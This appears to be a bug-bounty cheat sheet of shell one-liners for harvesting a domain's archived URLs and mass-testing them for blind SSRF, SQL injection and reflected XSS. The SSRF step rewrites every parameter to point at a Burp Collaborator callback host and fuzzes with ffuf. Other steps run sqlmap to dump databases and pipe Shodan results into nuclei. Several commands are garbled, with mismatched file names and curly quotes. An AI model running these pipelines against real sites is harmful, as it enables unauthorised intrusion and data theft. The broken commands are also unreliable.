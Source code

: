 KaleShiri



TOOLS used for the exploitation:
gf (tomnomnom) — https://github.com/tomnomnom/gf
qsreplace(tomnomnom) — https://github.com/tomnomnom/qsreplace)
ffuf — https://github.com/ffuf/ffuf
gau(Corben) — https://github.com/lc/gau
waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls




urls from web achieve using waybackurls and gau . Here is command i used for that
Command used:
gau -subs example.com
waybackurls example.com


grep out all the urls containing parameters and sort them uniquely and save it in file. So that can fuzzing for blind ssrf
Command used:
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u >> testblindssrf.txt


i used qsreplace to replace all parameter value with burpcollaborator server payload and fuzz it with ffuf.
.Command used:
cat testblindssrf.txt | qsreplace “http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net" >> ssrfuzz.txt
ffuf -c -w ssrfuzz.txt -u FUZZ -t 200



waybackurls google.com | grep "\\.js" | uniq | sort


--------------------------------------------------------------------------------------
Automate finding ssrf:
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
After Getting all URLS we will sort all the URL and resolve it remove false positive:
cat blindssrftesturl.txt | sort -u |anew | httpx |tee -a prefinal_ssrftesturl.txt
cat prefinal_ssrftesturl.txt | gf ssrf >> final_ssrftesturl.txt
cat final_ssrftesturl.txt |qsreplace “Burp collaborator server” >> ssrf_auto-ffuf.txt
ffuf -c -w ssrf_auto-ffuf.txt -u FUZZ



----------------------------------------------------------------------------------------
Automate SQLi
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt
sqlmap -m FUZZvul.txt --random-agent --dbs 


--------------------------------------------------------------------------------------------
reflected xss
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | qsreplace “xsst<>”| httpx -silent >> FUZZvul.txt
xargs -a /root/magicparameter/ssrf.txt -I@ bash -c ‘for url in $(cat FUZZvul.txt); do echo “$url&@=xsst<>”;done’ | httpx -http-proxy http://127.0.0.1:8080


------------------------------------------------------------------------------------------
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt

---------------------------------------------------------------------------------------

shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /home/ofjaaah/PENTESTER/nuclei-templates/

